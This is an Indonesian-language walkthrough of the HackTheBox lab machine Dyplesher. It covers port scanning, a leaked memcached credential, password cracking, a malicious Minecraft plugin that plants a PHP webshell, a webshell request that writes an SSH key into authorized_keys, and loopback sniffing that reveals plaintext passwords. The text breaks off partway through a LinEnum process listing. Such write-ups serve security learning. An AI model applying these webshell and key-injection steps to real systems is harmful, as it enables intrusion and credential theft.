

# Dyplesher (Linux)


HackTheBox Dyplesher dengan difficulty Insane! Box pertama yang penulis solve dengan difficulty Insane yang tentunya memakan waktu cukup lama, berhari-hari dan butuh tidur larut malam, bahkan sampai pagi. Penulis mendapat banyak sekali pengetahuan baru dari box ini dan berpendapat bahwa box ini sangat worth it waktu yang dihabiskan untuk mempelajarinya.

### Enumeration

Pertama mari kita mulai port scanning untuk mengetahui port apa saja yang terbuka di machine ini

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-11 02:32 EDT
Nmap scan report for 10.10.10.190
Host is up (0.031s latency).
Not shown: 65525 filtered ports
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:ca:81:78:ec:27:8f:50:60:db:79:cf:97:f7:05:c0 (RSA)
|   256 e0:d7:c7:9f:f2:7f:64:0d:40:29:18:e1:a1:a0:37:5e (ECDSA)
|_  256 9f:b2:4c:5c:de:44:09:14:ce:4f:57:62:0b:f9:71:81 (ED25519)
80/tcp    open   http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyplesher
3000/tcp  open   ppp?
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=1102a03c1fec9436; Path=/; HttpOnly
|     Set-Cookie: _csrf=aLnpqrWSYT9ehO1_AwjdhaC7kXw6MTYwMjM5ODA3OTc0MjA2ODA4Nw%3D%3D; Path=/; Expires=Mon, 12 Oct 2020 06:34:39 GMT; HttpOnly
|     Date: Sun, 11 Oct 2020 06:34:39 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="aLnpqrWSYT9ehO1_AwjdhaC7kXw6MTYwMjM5ODA3OTc0MjA2ODA4Nw==" />
|     <meta name="_suburl" content="" />
|     <meta proper
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=a67678ead16de18b; Path=/; HttpOnly
|     Set-Cookie: _csrf=nbaVUo-mezKGIT6Zi50XFgRMrtY6MTYwMjM5ODA4NDkyMzMxMjY4OQ%3D%3D; Path=/; Expires=Mon, 12 Oct 2020 06:34:44 GMT; HttpOnly
|     Date: Sun, 11 Oct 2020 06:34:44 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="nbaVUo-mezKGIT6Zi50XFgRMrtY6MTYwMjM5ODA4NDkyMzMxMjY4OQ==" />
|     <meta name="_suburl" content="" />
|_    <meta
4369/tcp  open   epmd       Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
5672/tcp  open   amqp       RabbitMQ 3.7.8 (0-9)
| amqp-info: 
|   capabilities: 
|     publisher_confirms: YES
|     exchange_exchange_bindings: YES
|     basic.nack: YES
|     consumer_cancel_notify: YES
|     connection.blocked: YES
|     consumer_priorities: YES
|     authentication_failure_close: YES
|     per_consumer_qos: YES
|     direct_reply_to: YES
|   cluster_name: rabbit@dyplesher
|   copyright: Copyright (C) 2007-2018 Pivotal Software, Inc.
|   information: Licensed under the MPL.  See http://www.rabbitmq.com/
|   platform: Erlang/OTP 22.0.7
|   product: RabbitMQ
|   version: 3.7.8
|   mechanisms: PLAIN AMQPLAIN
|_  locales: en_US
11211/tcp open   memcache?
25562/tcp open   unknown
25565/tcp open   minecraft?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, LDAPSearchReq, LPDString, SIPOptions, SSLSessionReq, TLSSessionReq, afp, ms-sql-s, oracle-tns: 
|     '{"text":"Unsupported protocol version"}
|   NotesRPC: 
|     q{"text":"Unsupported protocol version 0, please use one of these versions:
|_    1.8.x, 1.9.x, 1.10.x, 1.11.x, 1.12.x"}
25572/tcp closed unknown
25672/tcp open   unknown
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3000-TCP:V=7.80%I=7%D=10/11%Time=5F82A77E%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(GetRequest,2063,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:
SF:\x20text/html;\x20charset=UTF-8\r\nSet-Cookie:\x20lang=en-US;\x20Path=/
SF:;\x20Max-Age=2147483647\r\nSet-Cookie:\x20i_like_gogs=1102a03c1fec9436;
SF:\x20Path=/;\x20HttpOnly\r\nSet-Cookie:\x20_csrf=aLnpqrWSYT9ehO1_AwjdhaC
SF:7kXw6MTYwMjM5ODA3OTc0MjA2ODA4Nw%3D%3D;\x20Path=/;\x20Expires=Mon,\x2012
SF:\x20Oct\x202020\x2006:34:39\x20GMT;\x20HttpOnly\r\nDate:\x20Sun,\x2011\
SF:x20Oct\x202020\x2006:34:39\x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<h
SF:ead\x20data-suburl=\"\">\n\t<meta\x20http-equiv=\"Content-Type\"\x20con
SF:tent=\"text/html;\x20charset=UTF-8\"\x20/>\n\t<meta\x20http-equiv=\"X-U
SF:A-Compatible\"\x20content=\"IE=edge\"/>\n\t\n\t\t<meta\x20name=\"author
SF:\"\x20content=\"Gogs\"\x20/>\n\t\t<meta\x20name=\"description\"\x20cont
SF:ent=\"Gogs\x20is\x20a\x20painless\x20self-hosted\x20Git\x20service\"\x2
SF:0/>\n\t\t<meta\x20name=\"keywords\"\x20content=\"go,\x20git,\x20self-ho
SF:sted,\x20gogs\">\n\t\n\t<meta\x20name=\"referrer\"\x20content=\"no-refe
SF:rrer\"\x20/>\n\t<meta\x20name=\"_csrf\"\x20content=\"aLnpqrWSYT9ehO1_Aw
SF:jdhaC7kXw6MTYwMjM5ODA3OTc0MjA2ODA4Nw==\"\x20/>\n\t<meta\x20name=\"_subu
SF:rl\"\x20content=\"\"\x20/>\n\t\n\t\n\t\n\t\t<meta\x20proper")%r(Help,67
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x2
SF:0charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r
SF:(HTTPOptions,189F,"HTTP/1\.0\x20404\x20Not\x20Found\r\nContent-Type:\x2
SF:0text/html;\x20charset=UTF-8\r\nSet-Cookie:\x20lang=en-US;\x20Path=/;\x
SF:20Max-Age=2147483647\r\nSet-Cookie:\x20i_like_gogs=a67678ead16de18b;\x2
SF:0Path=/;\x20HttpOnly\r\nSet-Cookie:\x20_csrf=nbaVUo-mezKGIT6Zi50XFgRMrt
SF:Y6MTYwMjM5ODA4NDkyMzMxMjY4OQ%3D%3D;\x20Path=/;\x20Expires=Mon,\x2012\x2
SF:0Oct\x202020\x2006:34:44\x20GMT;\x20HttpOnly\r\nDate:\x20Sun,\x2011\x20
SF:Oct\x202020\x2006:34:44\x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<head
SF:\x20data-suburl=\"\">\n\t<meta\x20http-equiv=\"Content-Type\"\x20conten
SF:t=\"text/html;\x20charset=UTF-8\"\x20/>\n\t<meta\x20http-equiv=\"X-UA-C
SF:ompatible\"\x20content=\"IE=edge\"/>\n\t\n\t\t<meta\x20name=\"author\"\
SF:x20content=\"Gogs\"\x20/>\n\t\t<meta\x20name=\"description\"\x20content
SF:=\"Gogs\x20is\x20a\x20painless\x20self-hosted\x20Git\x20service\"\x20/>
SF:\n\t\t<meta\x20name=\"keywords\"\x20content=\"go,\x20git,\x20self-hoste
SF:d,\x20gogs\">\n\t\n\t<meta\x20name=\"referrer\"\x20content=\"no-referre
SF:r\"\x20/>\n\t<meta\x20name=\"_csrf\"\x20content=\"nbaVUo-mezKGIT6Zi50XF
SF:gRMrtY6MTYwMjM5ODA4NDkyMzMxMjY4OQ==\"\x20/>\n\t<meta\x20name=\"_suburl\
SF:"\x20content=\"\"\x20/>\n\t\n\t\n\t\n\t\t<meta");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port25565-TCP:V=7.80%I=7%D=10/11%Time=5F82A7A1%P=x86_64-pc-linux-gnu%r(
SF:DNSVersionBindReqTCP,2A,"\)\0'{\"text\":\"Unsupported\x20protocol\x20ve
SF:rsion\"}")%r(DNSStatusRequestTCP,2A,"\)\0'{\"text\":\"Unsupported\x20pr
SF:otocol\x20version\"}")%r(SSLSessionReq,2A,"\)\0'{\"text\":\"Unsupported
SF:\x20protocol\x20version\"}")%r(TLSSessionReq,2A,"\)\0'{\"text\":\"Unsup
SF:ported\x20protocol\x20version\"}")%r(LPDString,2A,"\)\0'{\"text\":\"Uns
SF:upported\x20protocol\x20version\"}")%r(LDAPSearchReq,2A,"\)\0'{\"text\"
SF::\"Unsupported\x20protocol\x20version\"}")%r(SIPOptions,2A,"\)\0'{\"tex
SF:t\":\"Unsupported\x20protocol\x20version\"}")%r(NotesRPC,74,"s\0q{\"tex
SF:t\":\"Unsupported\x20protocol\x20version\x200,\x20please\x20use\x20one\
SF:x20of\x20these\x20versions:\n1\.8\.x,\x201\.9\.x,\x201\.10\.x,\x201\.11
SF:\.x,\x201\.12\.x\"}")%r(oracle-tns,2A,"\)\0'{\"text\":\"Unsupported\x20
SF:protocol\x20version\"}")%r(ms-sql-s,2A,"\)\0'{\"text\":\"Unsupported\x2
SF:0protocol\x20version\"}")%r(afp,2A,"\)\0'{\"text\":\"Unsupported\x20pro
SF:tocol\x20version\"}");
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Ubiquiti AirOS 5.5.9 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Infomir MAG-250 set-top box (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 25572/tcp)
HOP RTT       ADDRESS
1   115.35 ms 10.10.14.1
2   41.58 ms  10.10.10.190

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 289.29 seconds
```

Kali ini kita dihadirkan dengan machine Linux yang port nya banyak dan asing di mata penulis
- Port 22 (SSH)

- Port 80 (HTTP)

- Port 3000 (Gogs)

- Port 4369 (Erlang Port Mapper Daemon)

- Port 5672 (RabbitMQ)

- Port 11211 (Memcached)

- Port 25562 (Unknown)

- Port 25565 (Minecraft)

- Port 25672 (Unknown)

Yap betul, anda tidak salah lihat, memang ada minecraft server yang di hosting didalam machine ini. Penulis tau karena dulu penulis sangat menggemari minecraft dan pernah me-manage bukkit minecraft server yang di port forward di default port 25565

Setelah menambahkan dyplesher.htb ke /etc/hosts , kita bisa mulai enumerasi awal di website port 80


Tampilan awal website seperti ini, dan kita mendapatkan subdomain baru yang bisa dilakukan pengecekan yaitu test.dyplesher.htb


Ternyata subdomain test.dyplesher.htb adalah semacam form submission untuk memcached server

Penulis melakukan directory bruteforcing pada kedua subdomain dan mendapatkan hasil berupa

```bash
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Tue Oct 13 02:04:17 EDT 2020
--------------------------------

http://dyplesher.htb:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/

Dirs found with a 403 response:

/img/
/icons/
/js/
/css/
/icons/small/
/fonts/
/fonts/vendor/


--------------------------------
Files found during testing:

Files found with a 200 responce:

/login
/index.php
/staff
/index.php/staff
/js/modernizr-2.8.3.min.js
/js/jquery-2.2.4.min.js
/img/ca.svg
/js/popper.min.js
/img/fb.svg
/img/tr.svg
/img/yt.svg
/js/owl.carousel.min.js
/js/serial.js
/js/metisMenu.min.js
/js/jquery.slimscroll.min.js
/js/jquery.slicknav.min.js
/js/app.js
/js/plugins.js
/js/scripts.js
/js/maps.js
/js/j.js
/robots.txt

Files found with a 302 responce:

/home
/register

Files found with a 301 responce:

/img
/css
/icons/small
/js
/fonts
/fonts/vendor

Files found with a 405 responce:

/logout


--------------------------------
```

Hal menarik yang bisa ditemukan pada dyplesher.htb adalah

- /login


Kita tahu sekarang terdapat login portal tersembunyi pada dyplesher.htb/login yang sepertinya hanya diperuntukan bagi staff management

- /staff


Kita mendapatkan 3 username / nama yang bisa kita buat menjadi wordlist pada login form yang kita temukan diatas

```
MinatoTW@dyplesher.htb
felamos@dyplesher.htb
yuntao@dyplesher.htb
```

Kita simpan dulu sementara ketiga wordlist entries tersebut sampai kita menemukan password yang cocok digunakan.

```bash
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Sun Oct 11 08:28:15 EDT 2020
--------------------------------

http://test.dyplesher.htb:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/

Dirs found with a 403 response:

/icons/
/icons/small/
/.git/
/.git/info/
/.git/logs/
/.git/objects/
/.git/objects/info/
/.git/objects/27/
/.git/objects/b1/
/.git/branches/


--------------------------------
Files found during testing:

Files found with a 200 responce:

/index.php


--------------------------------
```

Ada directory .git mari kita coba keluarkan info sebanyak banyaknya menggunakan gitdumper

[https://github.com/arthaud/git-dumper/blob/master/git-dumper.py](https://github.com/arthaud/git-dumper/blob/master/git-dumper.py)


Terdapat index.php yang berisi sebagai berikut

```php
<HTML>
<BODY>
<h1>Add key and value to memcache<h1>
<FORM METHOD="GET" NAME="test" ACTION="">
<INPUT TYPE="text" NAME="add">
<INPUT TYPE="text" NAME="val">
<INPUT TYPE="submit" VALUE="Send">
</FORM>

<pre>
<?php
if($_GET['add'] != $_GET['val']){
	$m = new Memcached();
	$m->setOption(Memcached::OPT_BINARY_PROTOCOL, true);
	$m->setSaslAuthData("felamos", "zxcvbnm");
	$m->addServer('127.0.0.1', 11211);
	$m->add($_GET['add'], $_GET['val']);
	echo "Done!";
}
else {
	echo "its equal";
}
?>
</pre>

</BODY>
</HTML>
```

Kita mendapatkan credential felamos untuk mengakses memcached server, mari kita coba untuk login sebagai felamos.

Biasanya kita bisa membuka koneksi ke memcached server di port 11211 dengan menggunakan Telnet , namun menurut Index.php tadi server memcached ini mengimplementasikan SASL authentication

[https://docs.oracle.com/cd/E23824_01/html/819-2145/sasl.intro.20.html](https://docs.oracle.com/cd/E23824_01/html/819-2145/sasl.intro.20.html)

Penulis sempat mencoba menggunakan telnet, namun tidak menemukan cara menggunakan credential felamos yang kita dapatkan tadi, jadi penulis menggunakan cara lain yaitu memcached-cli

[https://www.npmjs.com/package/memcached-cli](https://www.npmjs.com/package/memcached-cli)


Setelah mencoba cracking password menggunakan John The Ripper Jumbo dan wordlist rockyou.txt, penulis mendapatkan salah satu password dari ketiga staff tadi


Namun ternyata kombinasi username dan password tadi tidak bisa digunakan di login portal pada dyplesher.htb/login jadi penulis melakukan step back, kembali ke hasil nmap dan coba untuk mengalihkan fokus pada port 3000 yaitu Gogs


[https://gogs.io/](https://gogs.io/)

Tampilan awal service Gogs yang berjalan pada port 3000 adalah sebagai diatas. Gogs adalah service git yang bisa dijalankan di local machine. Jadi ibaratnya seperti GitHub tapi tidak di host pada server GitHub namun pada server sendiri / local. Fiturnya bahkan sampai design UI nya menyerupai GitHub sehingga membuat pengguna mudah terbiasa dengan fitur fitur nya.


Penulis berhasil login kedalam dashboard felamos menggunakan credential felamos@dyplesher.htb:mommy1 dan setelah enumerasi file file yang ada pada git repo tersebut, penulis menemukan sebuah release yang sepertinya menjanjikan (karena file lainnya yang di enumerasi sebelumnya tidak ada isinya), namun kali ini penulis menemukan sebuah repo.zip


Di download dan dilihat isinya

```bash
root@kali:~/Documents/htb/dyplesher/gitclone/felamos/releases/repo/repositories/@hashed# ls -R
.:
4b  4e  6b  d4

./4b:
22

./4b/22:
4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a.bundle

./4e:
07

./4e/07:
4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce  4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce.bundle

./4e/07/4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce:

./6b:
86

./6b/86:
6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b.bundle

./d4:
73

./d4/73:
d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35.bundle
```

File .bundle yang bisa ditemukan di directory @hashed diatas adalah git bundle, yaitu sebuah binary file yang berisi sebuah "git push" yang kemudan bisa di git clone untuk melihat isi didalamnya layaknya push biasa namun lebih mudah di distribusikan karena tidak memerlukan hubungan khusus terhadap git repo pemilik bundle nya.

Pada tahap ini penulis melakukan git clone terhadap semua bundle file

```bash
root@kali:~/Documents/htb/dyplesher/gitclone/felamos/bundle# ls -R
.:
4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a         6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b
4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a.bundle  6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b.bundle
4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce         d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35
4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce.bundle  d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35.bundle

./4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a:
LICENSE  README.md  src

./4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a/src:
VoteListener.py

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce:
banned-ips.json      commands.yml         help.yml         plugins    sc-mqtt.jar        start.command   world
banned-players.json  craftbukkit-1.8.jar  ops.json         python     server.properties  usercache.json  world_the_end
bukkit.yml           eula.txt             permissions.yml  README.md  spigot-1.8.jar     whitelist.json

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/plugins:
LoginSecurity  LoginSecurity.jar  PluginMetrics

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/plugins/LoginSecurity:
authList  config.yml  users.db

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/plugins/PluginMetrics:
config.yml

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/python:
pythonMqtt.py

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/world:
data  level.dat  level.dat_mcr  level.dat_old  playerdata  region  session.lock  uid.dat

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/world/data:
villages.dat  villages_end.dat

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/world/playerdata:
18fb40a5-c8d3-4f24-9bb8-a689914fcac3.dat

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/world/region:
r.0.0.mca  r.-1.0.mca

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/world_the_end:
DIM1  level.dat  level.dat_old  session.lock  uid.dat

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/world_the_end/DIM1:
region

./4e07408562bedb8b60ce05c1decfe3ad16b72230967de01f640b7e4729b49fce/world_the_end/DIM1/region:
r.0.0.mca  r.0.-1.mca  r.-1.0.mca  r.-1.-1.mca

./6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b:
LICENSE  phpbash.min.php  phpbash.php  README.md

./d4735e3a265e16eee03f59718b9b5d03019c07d8b6c51f90da3a666eec13ab35:
LICENSE.txt  nightminer.py  README.md
```

File file yang terdapat pada bundle file tadi ternyata adalah file yang biasanya ditemukan pada minecraft server folder. Seperti region dan world save data, server config dan property dari sini kita juga bisa mengetahui server menggunakan Spigot 1.8

Namun ada file yang lebih menarik untuk dibuka terlebih dahulu yaitu users.db

```
users.db: SQLite 3.x database, last written using SQLite version 3027002
```

Bisa kita buka menggunakan sqlite3


Dari tampilannya bisa dilihat bahwa penulis menemukan sebuah hashed password lagi, mari kita coba crack dengan John The Ripper lagi


Mari kita coba gunakan untuk login kedalam website login portal di port 80 yang tadi sudah kita tinggalkan sejenak dengan email yang sudah kita kumpulkan dan lihat yang mana yang berhasil digunakan untuk login.


Kita bisa masuk kedalam dashboard felamos yang sepertinya adalah webapp untuk manage server dengan fitur-fitur tambahan seperti Add Plugin, Reload Plugin dan lain lain. Pada console view kita bisa mengetahui bahwa server menggunakan Plug-Man untuk plugin management di server minecraft tersebut.


Dari sini penulis sempat ragu apa yang akan dilakukan, sempat dalam tahap in denial juga karena tidak terpikir harus membuat malicious minecraft plugin. Tapi untungnya waktu penulis mengerjakan box ini sangat tepat dengan jadwal kurikulum di universitas penulis yang termasuk Java Programming jadi sangat menguntungkan bagi penulis. 

Note : Penulis mendapatkan nudge dari forum HackTheBox untuk "Membuat RCE yang mudah untuk di debug, di subdomain yang sudah anda ketahui"

Penulis berencana untuk membuat webshell sederhana dengan payload PHP pamungkas system($_GET['cmd']) dengan cara menanamkan file baru pada subdomain test.dyplesher.htb

Disini dimulai siksaan penulis dalam mencoba-coba membuat minecraft plugin malicious dari beberapa reference, pada awalnya penulis menggunakan Eclipse IDE

[https://www.youtube.com/watch?v=r4W4drYdb4Q&ab_channel=CodedRed](https://www.youtube.com/watch?v=r4W4drYdb4Q&ab_channel=CodedRed)

[https://www.vogella.com/tutorials/JavaIO/article.html](https://www.vogella.com/tutorials/JavaIO/article.html)

Penulis sudah mencoba membuat beberapa script

- Inject webshell php

- Plain RCE

- Inject sshkey ke MinatoTW, felamos, yuntao

Namun tidak ada satupun yang berhasil padahal sepertinya script yang digunakan sudah benar, penulis akhirnya memiliki pikiran bahwa hal yang salah bukan terletak pada scriptnya sendiri namun pada dependency nya saat melakukan import Spigot jarfile dan import JDK

Jadi penulis mengulang progress di IDE lain bernama IntelliJ dan menggunakan maven untuk pengaturan dependency sehingga tidak perlu download dan import manual, hanya perlu menuliskan di file xml untuk build dependency. Penulis menggunakan reference dari link [https://www.spigotmc.org/wiki/creating-a-plugin-with-maven-using-intellij-idea/](https://www.spigotmc.org/wiki/creating-a-plugin-with-maven-using-intellij-idea/)


File structure pada IntelliJ bisa dilihat diatas


File .java bisa dilihat diatas. Kita akan kembali ke rencana awal yaitu membuat simple webshell masih memacu terhadap nudge yang penulis dapatkan dari forum HackTheBox


File plugin.yml ini diperlukan agar Spigot dan Plug-Man bisa mengidentifikasi nama plugin dan letak file Main.java


File pom.xml adalah Project Object Model file yang berisi dependency dari project yang sedang kita build. Ada satu hal yang tidak di cover pada reference spigotmc diatas, yaitu pada saat proses compiling harus disertakan line maven.compiler 1.8 agar versi JDK yang digunakan adalah 1.8, karena jika tidak diberikan IntelliJ akan menggunakan default setting yaitu JDK 1.5 sehingga code tidak akan tercompile sukses

Step selanjutnya kita akan upload .jar file kita dan reload plugin untuk metrigger onEnable yang akan melakukan php script injection




Mantap kita sudah mendapat RCE dan berhasil melakukan whoami

Penulis kemudian mencoba membuka reverse shell menggunakan beberapa payload berbeda seperti python, netcat, bash namun tidak ada yang berhasil. Sepertinya pada machine ini terdapat firewall yang melakukan restriction connectin outbound

Jadi cara yang memungkinkan adalah dengan memasukkan ssh public key kita kedalam /home/MinatoTW/.ssh/authorized_keys menggunakan webshell yang sudah kita miliki saat ini

```
http://test.dyplesher.htb/rev.php?cmd=echo%20ssh-rsa%20AAAAB3NzaC1yc2EAAAADAQABAAABgQC7ujNTqjCu3sovW2WgNZF5ErZXaGa5TrwLhvEaFu2NVv9GTGKtE8wRymiRYhzppfTJ7ycBetXoj7jb6AAKRTEmC9B2CI2%2BtyhvEtrDYpooCm2xUPA%2FCxhiLByi8x2ucdV7SYiaI0HhuYthFqS%2BoQPk6eD0nkIWY%2FiPpA1xsremhsft6fhRnedlqVXgGNULGJaUIYJFk9IPm3Zt5OzCLc5Sldpg%2Fc8loLIBb6VF7zMM3hvXgJ<--CENSORED-->QLmEv%2FWkrY1TvG7ps83envBkKnQoMFSQbK9SWMiQWRH3SrneLS%2Bc7YNGP08ADT4oGpRQspBHstnt3vWS1p3x6wTUnZqqO81onShvE%3D%20root%40kali%20%3E%20%2Fhome%2FMinatoTW%2F.ssh%2Fauthorized_keys
```

### User


Kita berhasil masuk sebagai MinatoTW, kenapa kita bisa SSH tapi tidak bisa reverse shell? Karena SSH termasuk inbound connection dan tidak diblock oleh firewall


Pada enumerasi awal, kita mengetahui bahwa MinatoTW termasuk dalam group "wireshark" jadi penulis mencari semua file yang berakhiran dengan shark untuk melihat jika kita memiliki akses ke tshark untuk melakukan sniffing pada local network ini.


Ternyata kita bisa menggunakan tshark, mari kita coba melakukan sniffing dengan referensi dari [https://duck.co/ia/view/tshark_cheat_sheet](https://duck.co/ia/view/tshark_cheat_sheet)


Perlu diperhatikan network interface yang perlu kita sniff adalah local / loopback sehingga kita harus mengecek nama interface yang berkorespondensi terhadap local address 127.0.0.1

Kita sudah berhasil melakukan sniffing dan mendapatkan file .pcap dan untuk menganlisanya penulis akan menggunakan wireshark di mesin lokal penulis. Perlu diingat bahwa outbound connection masih belum bisa digunakan karena masih ada firewall, penulis menggunakan scp untuk membypass rule firewall tersebut.

```bash
$ scp -i id_rsa MinatoTW@dyplesher.htb:/home/MinatoTW/dyplesher.pcap /root/Documents/htb/dyplesher/dyplesher.pcap
```

Note : Penulis memiliki kesulitan melakukan write ke dyplesher.htb (/var/www/html) dan untuk melakukan debug jika plugin gagal berjalan atau ada kesalahan dependency harus melakukan box reset yang terbatas 1x reset per 24 jam. Jadi kebetulan penulis berhasil mendapatkan webshell di /var/www/test penulis melihat bahwa folder /var/www dimiliki MinatoTW sehingga otomatis seharusnya tidak ada masalah melakukan write webshell php tadi ke /var/www/html.


Setelah melakukan follow pada TCP Stream penulis menemukan login credentials dari ketiga owner dan 1 credential login AQMPlain

```
MinatoTW@dyplesher.htb : bihys1amFov
yuntao@dyplesher.htb : wagthAw4ob : EashAnicOc3Op
felamos@dyplesher.htb : tieb0graQueg
```

Menggunakan credentials diatas, penulis bisa login SSH ke account felamos dan mendapatkan user.txt


### Root

Pada directory "yuntao" di home directory felamos kita bisa menemukan sebuah file send.sh yang isinya seperti dibawah ini

```
#!/bin/bash

echo 'Hey yuntao, Please publish all cuberite plugins created by players on plugin_data "Exchange" and "Queue". Just send url to download plugins and our new code will review it and working plugins will be added to the server.' >  /dev/pts/{}
```

Pada titik ini penulis harus banyak membaca dan sering kali stepback untuk bisa mengerti lebih baik maksud dari pesan ini. Jika kita melihat kembali di hasil nmap di awal kita bisa melihat ada service RabbitMQ yang berjalan di port 5672 dan menggunakan protocol AQMP.

RabbitMQ adalah software open-source yang berfungsi sebagai broker pesan yang menggunakan implementasi protocol AQMP (Advanced Message Queueing Protocol)


Routing key yang digunakan menurut note yang diberikan felamos terhadap yuntao adalah kita harus menggunakan key "plugin_data" yang message didalamnya berisi url plugin yang perlu di download dan di install kedalam server minecraft oleh "New Code"

Pada tahap ini penulis mencari apakah yang dimaksud dengan "New Code" yang disebutkan di message sebelumnya agar kita tahu seperti apa plugin yang diterima oleh sistem tersebut.

Menjalankan LinEnum.sh yang versi terbaru (sangat recommended karena baru di update 10 bulan yang lalu)

Berikut hasil LinEnum di bagian running processes

```
### SERVICES #############################################
[-] Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.2 166936 10892 ?        Ss   05:57   0:02 /sbin/init maybe-ubiquity
root         2  0.0  0.0      0     0 ?        S    05:57   0:00 [kthreadd]
